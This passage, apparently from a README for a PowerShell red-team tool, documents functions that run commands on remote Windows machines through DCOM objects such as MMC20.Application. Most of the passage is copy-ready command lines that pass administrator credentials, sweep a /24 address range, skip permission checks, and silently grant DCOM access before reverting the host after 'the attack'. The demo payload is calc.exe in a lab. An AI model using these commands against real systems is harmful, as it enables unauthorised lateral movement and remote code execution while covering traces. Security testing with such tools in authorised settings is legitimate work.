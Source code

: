            PS> Get-ExecutionCommand -ObjectName "{00020812-0000-0000-C000-000000000046}" -ObjectPath "DDEInitiate" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -Verbose


  2. Checks for DCOM access,  
        In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grants identity access and interacts with `MMC20.Application` (ProgID) object through `10.211.55.4` ip address using `lab\administrator` credentials, and will generates you the execution command.  
        Finally, it will revert the machine to the same state as before the attack.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -AutoGrant -Verbose

  3. Tries to interact with `MMC20.Application` (ProgID) object through `10.211.55.1/24` range using current logged-on session without analyze ACL permissions
        then it will generates the execution command.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.1/24" -SkipPermissionChecks -Verbose

  4. Tries to interact with `MMC20.Application` (ProgID) object through `10.211.55.4` ip address, without querying the registry.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -SkipRegAuth -Verbose


#### Invoke-ExecutionCommand

Invoke-ExecutionCommand function allows to executes commands via DCOM Object using the logged-on user or provided credentials.
* Examples:

  1. Checks for DCOM access,  
        In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grant access, Interact with `MMC20.Application` (ProgID) object through the range: `10.211.55.1/24` using current logged-on user session and Execute the following commands:
        1. Executes `cmd.exe /c calc` command
        2. Set `Frame.Top` attribute to `1`
        Finally, revert the machine to the same state as before the attack.

                PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -AutoGrant -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")},@{ObjectPath="Frame.Top";Arguments=@(1)} ) -HostList "10.211.55.1/24" -Verbose

  2. Tries to interact with `MMC20.Application` (ProgID) object using `lab\administrator` credentials through `10.211.55.4` ip address, and executes the following command: `cmd.exe /c calc`.

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -HostList "10.211.55.4" -Username "lab\administrator" -Password "Aa123456!" -Verbose

  3. Tries to interact with `MMC20.Application` (ProgID) object using current logged-on user session without analyze ACL permissions, and executes the following command: `cmd.exe /c calc`.
